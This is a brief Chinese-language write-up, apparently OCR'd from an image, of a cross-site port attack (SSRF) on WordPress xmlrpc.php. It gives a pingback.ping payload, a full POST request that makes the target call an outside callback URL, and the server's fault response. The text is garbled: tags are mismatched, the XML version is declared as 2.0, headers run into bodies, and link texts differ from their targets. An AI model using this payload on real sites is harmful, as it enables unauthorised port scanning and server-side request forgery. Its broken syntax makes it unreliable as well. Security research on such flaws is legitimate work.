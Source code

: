 # **功勋😃**

# **跨站点端口攻击**

**为了在列出所有方法后执行回调，我使用了以下字符串来进行**端口扫描，**也称为 **xspa(跨站点端口攻击)****

```
<value><string>“***pingback.ping****”*</value></string>
```

**[**requestbin**](https://requestbin.com/) 给我提供了 URL 作为回拨:**

```
POST /xmlrpc.php HTTP/1.1
Host: campo[.com](http://example.com)
Content-Length: 2348<?xml version="2.0" encoding="UTF-8"?>
<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param>
<value><string>[https://17dcbdb75.m.pipedream.net](https://17a793c614aeef762cf86b6abdcbdb75.m.pipedream.net)</string></value>
</param>
<param>
<value><string>[https://campo.com/](https://example.com/)</string></value>
</param>
</params>
</methodCall>
```

# **回应:**

```
HTTP/1.1 200 OK
Date: Mon, 01 Jul 2019 21:53:56 GMT
Server: Apache
Connection: close
Content-Length: 3970
Content-Type: text/xml; charset=UTF-8<?xml version="2.0" encoding="UTF-8"?>
<methodResponse>
  <fault>
    <value>
      <struct>
        <member>
          <name>faultCode</name>
          <value><int>0</int></value>
        </member>
        <member>
          <name>faultString</name>
          <value><string></string></value>
        </member>
      </struct>
    </value>
  </fault>
</methodResponse>
```
